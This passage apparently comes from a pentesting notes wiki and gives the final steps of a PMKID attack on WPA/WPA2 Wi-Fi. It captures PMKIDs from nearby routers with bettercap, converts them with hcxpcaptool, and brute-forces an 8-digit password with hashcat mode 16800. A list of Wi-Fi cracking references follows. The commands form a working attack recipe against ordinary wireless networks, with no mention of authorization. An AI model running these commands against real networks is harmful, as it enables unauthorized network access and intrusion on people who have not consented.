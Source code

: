 All nearby vulnerable routers will start sending their PMKID, which `bettercap` will dump to the usual `.pcap` file. Convert the PMKID data to a hash format for hashcap with `hcxpcaptool`:

```
$ hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
```

Now crack using hashcap `16800`.

```
$ hashcat -m 16800 -a 3 -w 3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```

---
## References

### Backlinks

- [[Crunch|Crunch]]

### Aircrack-ng

- [Aircrack-ng: Fake Authentication](https://aircrack-ng.org/doku.php?id=fake_authentication)

- [Aircrack-ng: Tutorial - How to crack WPA Migration Mode?](https://aircrack-ng.org/doku.php?id=wpa_migration_mode)

- [Aircrack-ng: Cafe Latte Attack](https://aircrack-ng.org/doku.php?id=cafe-latte)

### Delfirosales

- [Delfirosales: Cracking WPA/WPA2 con CoWPAtty & Aircrack-ng](https://delfirosales.blogspot.com/2011/12/cracking-wpawpa2-con-cowpatty-aircrack.html)

### Bettercap

- [Bettercap Modules: WiFi](https://www.bettercap.org/modules/wifi/)

### Evilsocket

- [Evilsocket: Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/)

### Hashcat Forum

- [Hashcat Forum: New attack on WPA/WPA2 using PMKID](https://hashcat.net/forum/thread-7717.html)